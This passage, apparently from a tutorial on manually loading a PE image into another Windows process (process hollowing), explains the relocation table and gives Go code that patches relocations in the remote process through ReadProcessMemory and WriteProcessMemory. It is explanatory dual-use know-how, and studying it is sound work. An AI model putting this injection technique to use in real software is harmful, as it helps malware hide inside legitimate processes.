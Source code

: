When an image is loaded into a process, its `ImageBase` usually will not be the address it actually ends up being loaded into. Because of this, some elements will need patching, if they are not represented as relative addresses. The Windows loader knows what to patch by going through the relocation table of a PE and applying the difference in image loading address to the values that need patching.
Since we are now loading an image into a process manually, we cannot rely on Windows to do the patching for us.
Very briefly, the relocation table is made of blocks. Each block has an 8-byte header, where the first 4 bytes represent the block location in memory (as an offset to `ImageBaseAddress`) and the last 4 bytes represent the size of the block in bytes. After the header, 2-bytes relocation entries represent the relocation type (4 bits) and the actual memory location that needs patching (12 bits), again as an offset to `ImageBaseAddress`.
The basic idea behind doing relocation, then, is to iterate through the blocks, starting from the relocation section pointer we saved earlier, and for every relocation entry, the location pointed to has to be patched by adding the difference between the old and new `ImageBase`.
If it is present, the Optional headers might contain `RelocationDirectoryRVA` and `RelocationDirectorySize` which can also be used to get the relocation table location and size.

```go
var relocationTableDataDir IMAGE_DATA_DIRECTORY
relocationTableDataDir.VirtualAddress = ntHeaders.OptionalHeader.RelocationDirectoryRVA
relocationTableDataDir.Size = ntHeaders.OptionalHeader.RelocationDirectorySize

var relocationOffset uint32 = 0
var relocationTable = relocationSection.PointerToRawData

for relocationOffset < relocationTableDataDir.Size {
    relocationBlockPtr := heapStartPtr + uintptr(relocationTable) + uintptr(relocationOffset)
    relocationBlock := (*BASE_RELOCATION_BLOCK)(unsafe.Pointer(relocationBlockPtr))
    relocationOffset += uint32(unsafe.Sizeof(*relocationBlock))
    numberRelocationEntries := (relocationBlock.BlockSize - uint32(8)) / uint32(2)
    for i := 0; i < int(numberRelocationEntries); i++ {
        relocationEntryPtr := heapStartPtr + uintptr(relocationTable) + uintptr(relocationOffset)
        relocationEntry := GetBaseRelocationEntry(*(*uint16)(unsafe.Pointer(relocationEntryPtr)))
        if relocationEntry.Type != 0 {
            var bytesRead uint32 = 0
            var bytesWritten uint32 = 0
            patchAddress := uintptr(relocationBlock.PageRVA) + uintptr(relocationEntry.Offset)
            patchedBuffer := uint64(0)
            r1, _, _ := readProcessMemory.Call(
                uintptr(processInfo.Process),
                peb.ImageBaseAddress+patchAddress,
                uintptr(unsafe.Pointer(&patchedBuffer)),
                uintptr(8), // sizeof uint64
                uintptr(unsafe.Pointer(&bytesRead)),
            )
            if r1 == 0 || bytesRead != 8 {
                log.Fatal("[-] Failed to retrieve relocation entry")
            }
            patchedBuffer += uint64(deltaImageBase)
            r1, _, _ = writeProcessMemory.Call(
                uintptr(processInfo.Process),
                peb.ImageBaseAddress+patchAddress,
                uintptr(unsafe.Pointer(&patchedBuffer)),
                uintptr(8),
                uintptr(unsafe.Pointer(&bytesWritten)),
            )
            if r1 == 0 || bytesWritten != 8 {
                log.Fatal("[-] Failed to write relocation entry to memory")
            }
        }
        relocationOffset += 2
    }

```